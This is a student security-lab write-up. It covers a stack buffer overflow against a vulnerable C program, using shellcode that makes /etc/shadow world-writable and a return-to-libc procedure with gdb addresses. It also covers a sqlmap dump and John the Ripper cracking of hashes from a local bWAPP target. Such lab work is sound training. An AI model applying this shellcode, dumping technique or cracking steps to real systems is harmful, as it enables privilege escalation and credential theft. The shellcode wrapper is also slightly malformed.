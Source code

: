 # IS_lab

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege

```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```

**Question 1**:

- Compile both C programs and shellcode to executable code.
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  **Answer 1**: Must conform to below structure:

Description text (optional)

**Description**

- stack frame of `vuln.c`
  ![1](./images/1.jpg)

1. Create 2 files `task1.c` , `shellcode.c`
2. compile 2 files into `task1.out` , `shellcode.out`
   ![2](./images/2.jpg)
3. Use an older bash and turn off randomly given stack value.
   ![3](./images/3.jpg)

4. Create environmet variable `preload` with `export`
   ![4](./images/4.jpg)
   ![5](./images/5.jpg)

5. We need to find the address of `system`, `exit` and `preload` variable. Load `vuln.out` into `gdb` and find them.

- Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
- Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
- Address value of the string of `preload`: 0xffffde2b will be inserted with format `\x2b\xde\xff\xff`
  ![5](./images/12.jpg)

```
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp

- Install bWapp (refer to quang-ute/Security-labs/Web-security).
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:

1. database of SEEDLABS
   ` python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=dd&Password=daad" --dump --batch`
   ![database image](./images/7.jpg)

**Question 2**: Use sqlmap to get tables, users

**Answer 2**:
![database image](./images/9.jpg)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

In Answer 2, we already dumpped and stored the hashed password to a separate file for further exploit.

To identity the hash algorithm, we'll use hashid, a library in python.

```
    hashid -mj hash_pw.txt
```

![image](./images/10.jpg)

Hashid suggest that the encrypt can be crack by using john specifically the format raw-sha1

```
    john --format=Raw-SHA1 hash_pw.txt
```

All the passwords have been cracked!

![image](images/11.jpg)
